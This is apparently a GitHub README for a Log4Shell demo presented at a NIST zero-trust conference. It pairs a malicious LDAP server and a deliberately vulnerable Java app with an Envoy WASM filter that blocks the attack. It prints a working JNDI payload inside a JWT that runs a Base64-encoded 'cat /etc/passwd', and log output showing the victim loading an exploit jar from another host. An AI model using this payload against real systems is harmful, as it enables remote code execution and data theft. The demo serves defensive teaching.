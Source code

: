 # ZTA and DevSecOps for Cloud Native Applications

This repository contains the materials for the *Service Mesh as the Security Kernel for Zero Trust Platforms*
demo presented at the NIST ZTA conference 2022.

## Contents

This demo contains three main applications:

* [log4shell-ldap](log4shell-ldap): A malicious LDAP server that can be used to exploit the `Log4Shell` CVEs.
* [vulnerable-app](vulnerable-app): An application that uses an old and insecure Java runtime and a vulnerable
   version of the `log4j` library.
* [wasm-patch](wasm-patch): An [Envoy](https://www.envoyproxy.io/) [WASM extension](https://github.com/proxy-wasm/spec) written
  in Go using the [proxy-wasm-go-sdk](https://github.com/tetratelabs/proxy-wasm-go-sdk) that inspects requests and
  rejects those that contain `Log4Shell` payloads.

See the [hacking](#hacking) section for details about how to customize them.

## Build requirements

* [Go 1.17](https://go.dev/dl/) or higher.
* [TinyGo](https://tinygo.org/) to compile and build the WASM plugin.
* [Docker](https://www.docker.com/) to create the Docker containers.

## Hacking

The behavior of the applications can be customized by modifying the [GreetingsServlet.java](vulnerable-app/src/main/java/io/tetrate/log4shell/vulnerable/GreetingsServlet.java)
(vulnerable application) and the [Log4shellExploit.java](log4shell-ldap/exploit/src/main/java/io/tetrate/log4shell/exploit/Log4shellExploit.java) (exploit).

The current implementation of the exploit reads malicious LDAP lookup strings and parses a Base64-encoded command that is then executed. For example, the
malicious string `"${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}"` will instruct the exploit to execute a `cat /etc/passwd` command. The vulnerable
application logs the value of the `name` claim in a JWT token, so if the malicious payload is set there, the exploit will be triggered.

### Running applications locally

The three applications can be easily run locally, although you won't be able to try all the [Istio](https://istio.io/)
features showcased in the demo. However, it is enough to get the applications running and to be able to play with them
and the WASM plugin.

You can start the applications locally with:

```bash
make -C wasm-patch clean compile  # docker-compose needs the WASM binary to have been compiled
docker-compose build
docker-compose up
```

This will build the necessary images and start all of them. The vulnerable application is exposed as follows:

* `http://localhost:8080` - Direct access to the vulnerable application.
* `http://localhost:8000` - Access through Envoy, which includes filtering with the WASM plugin.

To test it, you can send a request to the application or Envoy proxy with a JWT Bearer token in the Authorization header.
The contents of the "sub" claim in the provided token will trigger the attack vector, if present. For example:

**Executing the requests directly against the vulnerable app**

```bash
$ curl http://localhost:8080
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8080 -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDMyMTY1NTEsImlhdCI6MTY0MzIxMjk1MSwiaXNzIjoidGV0cmF0ZS5pbyIsIm5hbWUiOiIke2puZGk6bGRhcDovL2xvZzRzaGVsbDoxMzg5L2V4ZWMvWTJGMElDOWxkR012Y0dGemMzZGtDZz09fSIsInN1YiI6ImFkbWluIn0.KTpoau4cr75ifcvESisRnwJP6_8fxzLrY2MsvgPBITI"
Welcome, ${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}!
Accessing: /
```

We can see that the exploit was triggered by inspecting the vulnerable app logs:

```
log4shell_1   | received request from 192.168.160.3:37650
log4shell_1   | delivering malicious LDAP payload: {cn=pwned, exec/Y2F0IC9ldGMvcGFzc3dkCg== [{cn [pwned]} {javaClassName [io.tetrate.log4shell.exploit.Log4shellExploit]} {javaCodeBase [http://log4shell:3000/log4shell-exploit-1.0-SNAPSHOT.jar]} {objectclass [javaNamingReference]} {javaFactory [io.tetrate.log4shell.exploit.Log4shellExploit]}]}
vulnerable_1  | /!\ /!\ /!\ You have been pwned!
vulnerable_1  | /!\ /!\ /!\ RCE exploit loaded
vulnerable_1  | /!\ /!\ /!\ Executing: cat /etc/passwd
vulnerable_1  |
vulnerable_1  | root:x:0:0:root:/root:/bin/bash
vulnerable_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
vulnerable_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
vulnerable_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
vulnerable_1  | sync:x:4:65534:sync:/bin:/bin/sync
vulnerable_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
vulnerable_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
vulnerable_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
vulnerable_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
vulnerable_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
vulnerable_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
vulnerable_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vulnerable_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vulnerable_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
vulnerable_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
vulnerable_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
vulnerable_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
vulnerable_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vulnerable_1  | systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
vulnerable_1  | systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
vulnerable_1  | systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
vulnerable_1  | systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
vulnerable_1  | messagebus:x:104:108::/var/run/dbus:/bin/false
vulnerable_1  |
vulnerable_1  | 13:40:09.410 [qtp1316061703-12] INFO  io.tetrate.log4shell.vulnerable.GreetingsServlet - welcoming user: pwned!
```

**Executing the requests against the Envoy proxy**

When running the requests through the proxy we can see the access being denied as the traffic is filtered by the WASM plugin.

```bash
$ curl http://localhost:8000
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8000 -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDMyMTY1NTEsImlhdCI6MTY0MzIxMjk1MSwiaXNzIjoidGV0cmF0ZS5pbyIsIm5hbWUiOiIke2puZGk6bGRhcDovL2xvZzRzaGVsbDoxMzg5L2V4ZWMvWTJGMElDOWxkR012Y0dGemMzZGtDZz09fSIsInN1YiI6ImFkbWluIn0.KTpoau4cr75ifcvESisRnwJP6_8fxzLrY2MsvgPBITI"
Access Denied
```

## ZTA demo step by step

If you want to play with the demo, you can follow the step by step guide in the [DEMO.md](DEMO.md) file.
